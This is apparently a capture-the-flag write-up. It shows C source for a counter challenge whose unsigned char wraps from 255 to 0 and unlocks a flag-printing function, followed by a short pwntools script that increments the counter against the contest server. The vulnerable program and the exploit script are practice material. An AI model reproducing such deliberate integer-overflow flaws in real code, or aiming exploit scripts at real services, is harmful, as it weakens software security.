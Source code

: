 
![](./img/desc.png)

### Source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <unistd.h>
#include <errno.h>

#define NUM_BUF_SIZE 24
#define STRTOUL_BASE 10

void flag(void);

void disable_buffering(void);
void input_str(char *msg, char *str, size_t size);
unsigned long get_num(char *msg);

void flag(void) {
    system("cat flag.txt");
}

int main(int argc, char *argv[])
{
    unsigned char counter = 1;

    disable_buffering();

    while (true) {
        printf("Counter: %d\n", counter);
        puts("1) ++");
        puts("2) --");
        puts("3) Flag");
        puts("0) Exit");

        switch (get_num("Choice: ")) {
            case 1:
                counter++;
                break;
            case 2:
                if (counter > 1) {
                    counter--;
                }
                break;
            case 3:
                if (counter == 0) {
                    flag();
                } else {
                    puts("No.");
                }
                break;
            case 0:
                puts("Bye!");
            default:
                fprintf(stderr, "Invalid option\n");
                break;
        }

        putchar('\n');
    }

    return EXIT_SUCCESS;
}

void disable_buffering(void)
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void input_str(char *msg, char *str, size_t size)
{
    ssize_t num_bytes;

    fputs(msg, stdout);
    num_bytes = read(STDIN_FILENO, str, size - 1);
    if (num_bytes == -1) {
        perror("read");
        exit(EXIT_FAILURE);
    } else {
        str[num_bytes] = '\0';
    }

    return;
}

unsigned long get_num(char *msg)
{
    char str[NUM_BUF_SIZE] = { '\0' };
    char *endptr = NULL;
    unsigned long num;

    input_str(msg, str, NUM_BUF_SIZE);
    num = strtoul(str, &endptr, STRTOUL_BASE);
    if (errno == ERANGE) {
        perror("strtoul");
        exit(EXIT_FAILURE);
    }

    return num;
}
```
## Walkthrough

We know that the the unsigned char typically has a range of [0 to 255] for [more](https://www.geeksforgeeks.org/what-happens-if-loop-runs-till-maximum-of-signed-and-unsigned-in-c/) - if we loop through  it will jump to the 0 and that's the goal. I'll set up a script automation for that.  


```python
from pwn import *

r = remote("pwn.chal.ctf.gdgalgiers.com","1402")

for i in range(255 ):
    r.sendlineafter(b'Choice:', '1')

r.interactive()
```